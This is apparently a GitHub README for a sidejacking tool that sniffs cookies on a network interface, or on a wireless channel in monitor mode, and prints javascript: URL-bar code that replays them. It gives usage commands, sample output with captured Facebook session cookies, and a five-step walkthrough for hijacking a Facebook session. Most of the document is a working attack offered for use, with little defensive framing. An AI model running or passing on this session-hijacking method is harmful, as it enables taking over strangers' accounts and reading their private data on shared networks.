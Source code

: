 # A Simple sidejacking tool, using javascript cookie injection.

This software sniffs any interface for cookies, and generates javascript code that can be injected into any browser, by pasting it into the URL bar.

It comes accompanied by a script: `OSx10.6_monitorMode.py`, that is able to use the `airport sniff` feature present in OS X 10.6+, allowing the wireless device to be put in monitor mode. We are, thus, able to retrieve any cookie sent on the chosen wireless channel.

# Usage

To run the cookieJsInjection open a shell (e.g., bash) and execute the following command (cookieJsInjection requires scapy to run - http://www.secdev.org/projects/scapy/):

`./cookieJsInjection.py IFACE`

Where `IFACE` represents the network interface you wish to sniff on (e.g. eth0, wlan0, etc). 

If you supply the flag `-facebook`, it will only output facebook cookies, keeping track of the profiles captured in the session, and eliminating duplicate entries:

`./cookieJsInjection.py IFACE -facebook`

If you wish to run `cookieJsInjection` on a wireless device, and you are currently running OS X 10.6+, use `OSx10.6_monitorMode.py`:

    hybrid:py-cookieJsInjection diogomonica$ sudo python OSx10.6_monitorMode.py 9 -facebook
    [*] Starting scan on channel 9
    Capturing 802.11 frames on en1.
    # Found cookie for facebook user XXXXXXXX:
    c_user = XXXXXXXXX
    presence = DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF294237772227WMblcMshfPBbloMbvtMctP294232437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP294237495196QB1259338588ADolA-1BflA_5b_5dBexpZ295237551044QQBalAD1606900057ADiA0QQQQ
    xs = 24e156ef2ddf6d6911422b0a9825825f
    datr = 4VToPPIw60lKSa3qrFSFrlm1
    lu = ZBj64Z92UpiasQNnWbkzW32w
    sct = 1273830123
    x-referer = http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488456769644%3Fnotif_t%3Dfeed_comment
    [*] Javascript Injection code:
    javascript:void(document.cookie="c_user=XXXXXXXXX");void(document.cookie="wd=1280x840");void(document.cookie="e=n");void(document.cookie="presence=DJ294237494BchADhA_2256.channel_22BsubA_5b1_5dBF29432172227WMblcMsndPBbloMbvtMctP2943212437BsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA69V294236729Z292BlcPBuoAD1454092337ADolA-1BflA_5b_5dBexpP29443432196QB1259338588ADolA-1BflA_5b_5dBexpP2942321553944QQBalAD1605400057ADiA0QQQQ");void(document.cookie="xs=54e156e028df6d6916232b0a9825825e");void(document.cookie="datr=1VTuTPOwDSg6xl3qrQFDrlm4");void(document.cookie="lu=TAj64Z02UpiSdFQNnWbkz2w");void(document.cookie="sct=1294230653");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%3Fref%3Dlogo%23%2Fdiogo.monica%2Fposts%2F488432169644%3Fnotif_t%3Dfeed_comment");

Remember to select the appropriate channel (in the example above, channel 9 was used).

# Example of Facebook sidejacking


1 - Run cookieJsInjection and wait for cookies to appear

    glow:py-cookieJsInjection hiperion$ sudo python cookieJsInjection.py en1 -facebook
    ... 
javascript:void(document.cookie="c_user=XXXXXXXXXX");void(document.cookie="wd=1280x616");void(document.cookie="presence=DJ293759043BchADhA_2256.channel_22BsubA_5b1_2c1LXXXXXXXXA5BF293757419186WMblcMsndPBbloMbvtMctMsbPBtA_5b_5dBfAnullBuctMsA0QBblADacA42V293758371Z416BlcA0AQ");void(document.cookie="cur_max_lag=20");void(document.cookie="act=1293757438495%2F1");void(document.cookie="L=20");void(document.cookie="datr=0fMcTTMFZZVhFiOJZvvO1pyO");void(document.cookie="locale=en_US");void(document.cookie="lu=TA3UCsI0Y6ezY6wydClUpeDw");void(document.cookie="sct=1293787415");void(document.cookie="W=1293757115");void(document.cookie="sid=3");void(document.cookie="xs=1e4d54055dbe34976a93d3a1fe574a19");void(document.cookie="x-referer=http%3A%2F%2Fwww.facebook.com%2F%23%2F");void(document.cookie="made_write_conn=1293751415");

2 - Copy the javascript code (begining with `javascript:`).

3 - Open the browser in facebook.com (make sure you are logged out of any accounts).

4 - Paste the javascript code into the URL bar (press enter)

5 - Go to facebook.com
                                       
#Background

More information on sidejacking - http://en.wikipedia.org/wiki/Session_hijacking